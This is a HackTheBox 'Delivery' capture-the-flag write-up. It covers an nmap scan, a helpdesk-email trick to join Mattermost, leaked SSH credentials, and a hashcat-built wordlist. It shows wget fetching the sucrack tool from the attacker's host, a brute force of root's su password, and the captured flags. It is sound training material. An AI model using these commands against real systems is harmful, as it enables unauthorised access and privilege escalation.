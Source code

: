 ![](delivery-hackthebox.jpg)

# Enumeration 

## Nmap scan
```text
Nmap 7.91 scan initiated Fri Jun  4 08:25:04 2021 as: nmap -sV -sC -oN nmap/delivery.nmap 10.10.10.222
Nmap scan report for 10.10.10.222
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun  4 08:25:33 2021 -- 1 IP address (1 host up) scanned in 29.51 seconds
```
We got a port 80 in our nmap scan. So we can hope into that website and take a look at it.

![](web.png)

We can see **helpdesk** site and **contact us**. After we add into that address our host file we can see the help desk delivery site and contact us. 

![](helpdesk.png)

Contact us  redirect to the **Mattermost login page**.

![](mattermost.png)

I try to find some exploit to osTicket. Here is the exploitDB site.

![](expolitdb.png)

After reading exploits I try to make a ticket.

![](ticket%20creating.png)

After I send it that leaked email address.

![](after%20send.png)

So I hop into that **Check Ticket Status** tab. For look into our ticket. When you log into your account you can see your ticket. 

![](our%20ticket.png)

Next thing we need to do creating account on **Mattermost** . We can use that email they gave us. Your password must be something like this *Defalt#123* .

![](mattermost%20acc%20create.png)

After we create account they send us the verify email. Take a look into our **View Ticket Thread** tab.

![](verifying%20email.png)

After we go into that link. You need to log into that account you created. You can choose *Internal server* whatever it shows in first page after you log in.

![](inside%20matermost.png)

I think we got our credentials to our user machine. 
Credentials :
* Login : maildeliverer
* passwd : Youve Got Mail!

```bash
┌─[✗]─[visith@parrot]─[~/CTF/htb/delivery]
└──╼ $ssh maildeliverer@10.10.10.222
The authenticity of host '10.10.10.222 (10.10.10.222)' can't be established.
ECDSA key fingerprint is SHA256:LKngIDlEjP2k8M7IAUkAoFgY/MbVVbMqvrFA6CUrHoM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.222' (ECDSA) to the list of known hosts.
maildeliverer@10.10.10.222's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ ls
user.txt
maildeliverer@Delivery:~$ cat user.txt
7f41e5191b9dca10b271abd2e425dfca
```
Now we got into our user. Now lets see anyother users in this machine . For that we can use this to grep what we want.

```bash
maildeliverer@Delivery:~$ cat /etc/passwd | grep -v 'nologin\|false'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
maildeliverer:x:1000:1000:MailDeliverer,,,:/home/maildeliverer:/bin/bash
mattermost:x:998:998::/home/mattermost:/bin/sh
```
Nothing Interesting to me. But after some time I look into our mattermost chat. I found a hint on that chat. Thx to ippsec we got a hint for root passwd. He provide a great hint.

![](hint.png)

So we can use **hashcat** to generate password list to crack **root** password. Because we cant use rockyou.txt in this matter. First make a sample to our password list like this.

```bash
┌─[visith@parrot]─[~/CTF/htb/delivery]
└──╼ $echo PleaseSubscribe! > passwd.txt && cat passwd.txt
PleaseSubscribe!
┌─[visith@parrot]─[~/CTF/htb/delivery]
└──╼ $hashcat --stdout passwd.txt -r /usr/share/hashcat/rules/best64.rule >> passwd.txt
```
Now we make a passwd list to crack. Now we need to crack root's password. So I end up using tool call **sucrack** .

Here is the link for tool : https://github.com/hemp3l/sucrack.git

After you download it You need to setup it. Use following commands to make the sucrack file. 

```bash
┌─[✗]─[visith@parrot]─[/opt/sucrack]
└──╼ $sudo ./configure 
checking for a BSD-compatible install... /usr/bin/install -c
checking whether build environment is sane... yes
checking for a thread-safe mkdir -p... /usr/bin/mkdir -p
checking for gawk... gawk
checking whether make sets $(MAKE)... yes
checking whether make supports nested variables... yes
checking build system type... x86_64-pc-linux-gnu
checking host system type... x86_64-pc-linux-gnu
checking target system type... x86_64-pc-linux-gnu
loc... yes
checking for pid_t... yes
checking vfork.h usability... no
checking vfork.h presence... no
checking for vfork.h... no
checking for fork... yes
checking for vfork... yes
checking for working fork... yes
checking for working vfork... (cached) yes
checking for dup2... yes
checking for memset... yes
checking for strdup... yes
checking for strstr... yes
checking that generated files are newer than configure... done
configure: creating ./config.status
config.status: creating Makefile
config.status: creating src/Makefile
config.status: creating config.h
config.status: config.h is unchanged
config.status: executing depfiles commands

sucrack configuration
---------------------
sucrack version		: 1.2.3
target system           : LINUX
sucrack link flags      : -pthread
sucrack compile flags	: -DSTATIC_BUFFER  -DLINUX -DSUCRACK_TITLE="\"sucrack 1.2.3 (LINUX)\""
┌─[visith@parrot]─[~/CTF/htb/delivery]
└──╼ $sudo make
```
After that you must get sucrack file. So let's make a 'www' directory and upload them into the our machine. 

```bash
┌─[visith@parrot]─[~/CTF/htb/delivery]
└──╼ $mv passwd.txt www/
┌─[visith@parrot]─[~/CTF/htb/delivery]
└──╼ $cd www/
┌─[✗]─[visith@parrot]─[~/CTF/htb/delivery/www]
└──╼ $cp /opt/sucrack/src/sucrack .
```
Let's get that files and do our thing. For that I recommend to use /dev/shm/ directory . Because it's temporary file storage so you don't need to worry about cleaning up your work.

```bash
maildeliverer@Delivery:~$ cd /dev/shm/
maildeliverer@Delivery:/dev/shm$ wget 10.10.14.8:8000/passwd.txt
--2021-06-04 00:00:27--  http://10.10.14.8:8000/passwd.txt
Connecting to 10.10.14.8:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1194 (1.2K) [text/plain]
Saving to: ‘passwd.txt’

passwd.txt              100%[=============================>]   1.17K  --.-KB/s    in 0s      

2021-06-04 00:00:27 (100 MB/s) - ‘passwd.txt’ saved [1194/1194]

maildeliverer@Delivery:/dev/shm$ wget 10.10.14.8:8000/sucrack
--2021-06-04 00:00:36--  http://10.10.14.8:8000/sucrack
Connecting to 10.10.14.8:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 77320 (76K) [application/octet-stream]
Saving to: ‘sucrack’

sucrack                 100%[=============================>]  75.51K   244KB/s    in 0.3s    

2021-06-04 00:00:36 (244 KB/s) - ‘sucrack’ saved [77320/77320]
```
Now execute our script to that make it executable.
```bash
maildeliverer@Delivery:/dev/shm$ chmod +x sucrack 
maildeliverer@Delivery:/dev/shm$ ./sucrack -h
sucrack 1.2.3 (LINUX) - the su cracker
Copyright (C) 2006  Nico Leidecker; nfl@portcullis-security.com

 Usage: ./sucrack [-char] [-w num] [-b size] [-s sec] [-u user] [-l rules] wordlist
```
After reading tools option. I cracked the password.

```bash
maildeliverer@Delivery:/dev/shm$ ./sucrack -a -w 20 -s 10 -u root -r passwd.txt 
-a option not available. Use the --enable-statistics configure flag
-s option not available. Use the --enable-statistics configure flag
password is: PleaseSubscribe!21

```
Let's move into root user.

```bash
maildeliverer@Delivery:/dev/shm$ su -
Password: 
root@Delivery:~# ls
mail.sh  note.txt  py-smtp.py  root.txt
root@Delivery:~# cat note.txt 
I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times.  The inspiration for the box is here: 

- https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c 

Keep on hacking! And please don't forget to subscribe to all the security streamers out there.

- ippsec
root@Delivery:~# cat root.txt 
2ed05a6f7194cad2e28227330d0a8429
```

Thx for reading !! and have a nice day.